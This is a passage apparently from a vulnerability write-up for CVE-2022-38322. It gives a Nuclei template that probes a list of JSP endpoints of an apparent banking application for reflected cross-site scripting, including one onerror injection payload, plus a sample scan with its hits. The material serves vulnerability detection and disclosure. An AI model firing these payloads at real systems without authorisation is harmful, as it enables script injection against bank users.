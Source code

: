 ```yaml
    path:
      - "{{BaseURL}}/jsps/enqrequest.jsp?enqaction=XSS&enqname=XSS&routineArgs=XSS&skin=XSS&compId=XSS&usrRole=XSS&compScreen=XSS&contextRoot=&windowName=XSS&user=XSS&reqTabid=XSS&WS_replaceAll=XSS&WS_parentComposite=XSS&command=&formToken="
      - "{{BaseURL}}/jsps/about.jsp?skin=XSS&release=XSS"
      - "{{BaseURL}}/jsps/continue.jsp?cfwstage=XSS&compId=XSS&skin=XSS&user=XSS&windowName=XSS"
      - "{{BaseURL}}/jsps/customMessage.jsp?Message=XSS"
      - "{{BaseURL}}/jsps/dropdown.jsp?title=XSS&routineArgs=XSS&routineName=XSS&searchCriteria=XSS&dropfield=XSS&compId=XSS&usrRole=XSS&skin=XSS&windowName=XSS&parentWin=XSS"
      - "{{BaseURL}}/jsps/fileUpload.jsp?skin=XSS&trans_upload=XSS&trans_uploading=XSS&fragment=XSS"
      - "{{BaseURL}}/jsps/genDocRequest.jsp?imageId=XSS&isPopUp=XSS&enqid=XSS"
      - "{{BaseURL}}/jsps/helprequest.jsp?url=XSS"
      - "{{BaseURL}}/jsps/submitWindow.jsp?requestType=XSS&routineArgs=XSS&companyId=XSS&unlock=XSS&closing=XSS&pwprocessid=XSS&windowName=XSS"
      - "{{BaseURL}}/jsps/svgInstall.jsp?skin=XSS"
      - "{{BaseURL}}/jsps/txnrequest.jsp?usrRole=XSS&routineArgs=XSS&compId=XSS&compScreen=XSS&user=XSS&skin=XSS"
      - "{{BaseURL}}/jsps/genrequest.jsp?routineName=XSS&routineArgs=XSS&skin=XSS&compId=XSS&compScreen=XSS&contextRoot=&user=XSS&formToken="
      - "{{BaseURL}}/jsps/helprequest.jsp?url=XSS%27)%22+onerror=%22confirm(%27XSS%27)%22+test=%22"

    headers:
      User-Agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36"

    matchers-condition: and
    matchers:
      - type: word
        words:
          - "XSS"
        part: body 

      - type: status
        status:
          - 200
```
{: file="CVE-2022-38322.yaml" }

{% endraw %}


## POC: 

```bash
nuclei -t CVE-2022-38322.yaml -u https://transact.bank.local/

[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/enqrequest.jsp?enqaction=XSS&enqname=XSS&routineArgs=XSS&skin=XSS&compId=XSS&usrRole=XSS&compScreen=XSS&contextRoot&windowName=XSS&user=XSS&reqTabid=XSS&WS_replaceAll=XSS&WS_parentComposite=XSS&command&formToken
[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/about.jsp?skin=XSS&release=XSS
[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/continue.jsp?cfwstage=XSS&compId=XSS&skin=XSS&user=XSS&windowName=XSS
[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/customMessage.jsp?Message=XSS
[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/dropdown.jsp?title=XSS&routineArgs=XSS&routineName=XSS&searchCriteria=XSS&dropfield=XSS&compId=XSS&usrRole=XSS&skin=XSS&windowName=XSS&parentWin=XSS
[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/fileUpload.jsp?skin=XSS&trans_upload=XSS&trans_uploading=XSS&fragment=XSS
[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/genDocRequest.jsp?imageId=XSS&isPopUp=XSS&enqid=XSS
[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/helprequest.jsp?url=XSS
[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/submitWindow.jsp?requestType=XSS&routineArgs=XSS&companyId=XSS&unlock=XSS&closing=XSS&pwprocessid=XSS&windowName=XSS
```